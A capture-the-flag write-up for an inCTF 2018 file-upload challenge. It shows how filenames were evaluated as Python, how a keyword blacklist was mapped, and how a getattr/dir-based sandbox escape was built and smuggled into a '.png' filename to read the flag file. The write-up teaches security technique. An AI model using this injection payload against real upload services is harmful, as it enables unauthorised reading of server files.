# The Most Secure File Uploader

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/1.png)
54/306 = 18% of the teams solved this challenge.

## Phase: Reconnaissance
Here we need to figure out how the challenge works, and figure out what we can exploit.


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/2.png)

Here we can see it's a file upload. File uploaders are often insecure, let's upload something.
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/6.png)
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/3.png)
We see that the URL say's it a php file, but the error message looks like python. This is probably just a trick to confuse you.

We know from this that it tries to do something with the filename, and we get a error. Let's upload something that does not end with a image extension (.jpg/.png etc).

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/4.png)


Okay, uploading something other than `*.png` we get an error. Here we try upload some different payloads and see what the output is.

`hej.vad.png` =>   Traceback (most recent call last): File "", line 1, in NameError: name 'hej' is not defined

`0.png` =>         File "", line 1 0.png ^ SyntaxError: invalid syntax

`AAAA).png` =>     File "", line 1 AAAA).png ^ SyntaxError: invalid syntax

`$flag.png`  =>    File "", line 1 .png ^ SyntaxError: invalid syntax

`__debug__.png` => Traceback (most recent call last): File "", line 1,
in AttributeError: 'bool' object has no attribute 'png'

`__debug__.__str__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'method-wrapper' object has no attribute 'png'

`123456789[:-1].png` Traceback (most recent call last): File "", line 1, in TypeError: 'int' object has no attribute '__getitem__'

As you can see, when we did the CTF, we fell in the php trap and though the server was running php code. The more we tried, we noticed that it's definately python error messages.

And the breakthrough were when we added a # at the end to comment out the .png part as it seem to be failing on that line.
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/5.png)


### Blacklist
As we try upload some known python names, like __class__.png
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/7.png)

...And there seem to be a blacklist.

Iterating over some known and `useful` python stuff we get the following blacklist:

`subprocesses|os|import|builtins|eval|locals|class|;|file`

and the file must end with a .png.


## Phase: Exploit - Python sandbox escape
From the reconnisance phase we notice the challenge is a Python sandbox escape.
Usually the flag is hidden on the server in a .txt file, so our goal is to read a file.

`().__class__.__base__.__subclasses__()[40]("flag.txt").read()`

Here is the line we want to execute, but from the reco phase we know that class, subclasses is blacklisted.
To circumvent this we need to figure out another way to run __class__ and __subclasses__ without actually typing it.

```
>>> dir([])[1]
'__class__'
```

Okay, we can now write the __class__ without directly typing it to bypass the blacklist.

```
>>> getattr((), dir([])[1])
<type 'tuple'>
```
This translates to `[].__class__`.

Okay so next we want to append __base__.

```
>>> getattr((), dir([])[1]).__base__
<type 'object'>
```
And now we want to append __subclassses__, but we know class is blacklisted so we have to bypass it somehow.

```
>>> dir(().__class__.__base__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
We've found the __subclasses__. Now we just have to write the same command without using class.

```
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```

Great! Let's extract what we want:
```
>>> dir(().__class__.__base__.__class__)[34]
'__subclasses__'
```

If we combine what we have so far:
```
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])
<built-in method __subclasses__ of type object at 0x5610a5dd6980>
```

Adding () to call the __subclasses__ function.

```
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]
<type 'file'>
>>>
```
Let's combine our payload and upload it to get the flag.
```mv payload.png "print getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()#.png"```


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/8.png)
